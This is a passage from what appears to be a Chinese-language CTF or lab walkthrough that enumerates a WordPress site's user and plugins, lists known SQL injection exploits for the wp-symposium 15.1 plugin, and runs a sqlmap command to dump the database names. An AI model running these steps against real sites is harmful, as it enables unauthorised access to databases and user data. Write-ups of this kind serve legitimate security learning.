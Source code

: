      |  Author: the WordPress team
     |  Author URI: https://wordpress.org/	

有个用户
	
	[+] Enumerating usernames ...
	[+] Identified the following 1 user/s:
    	+----+-----------+-----------+
    	| Id | Login     | Name      |
    	+----+-----------+-----------+
    	| 1  | localhost | localhost |
    	+----+-----------+-----------+

已经知道了只有这一个Web服务，就没必要用Nmap扫描了。

统计一下信息
	
	Web容器 Apache/2.4.10 (Debian)
	phpmyadmin
	
	wordpress
	有两个脆弱的插件 Akismet 和 wp-symposium - v15.1
	主题是 twentyfifteen - v1.3
	一个用户 localhost

去网上寻找wp-symposium v15.1的漏洞

找到三个，全部都是SQL注入

	CVE-2015-3325
	WordPress Plugin WP Symposium 15.1 - '&show=' SQL Injection
	https://www.exploit-db.com/exploits/37080/

	CVE-2015-6522
	WordPress Plugin WP Symposium 15.1 - 'get_album_item.php' SQL Injection
	https://www.exploit-db.com/exploits/37824/

	WordPress Plugin WP Symposium 15.1 - Blind SQL Injection
	https://www.exploit-db.com/exploits/37822/


## 0x01 漏洞利用

经过测试只有第三个可以注入成功，CVE-2015-6522在这个网站上没法查询别的数据，看源代码是没有过滤的，但是只能返回database(),version()等函数的值。

利用第三个盲注漏洞，使用SQLmap

将访问的请求包保存到txt文件里，使用-r参数

跑数据库

	sqlmap -r "C:\Users\10904\Desktop\2040.txt" --dbs

回显
	
	available databases [4]:
	[*] information_schema
	[*] mysql
	[*] performance_schema
	[*] wordpress
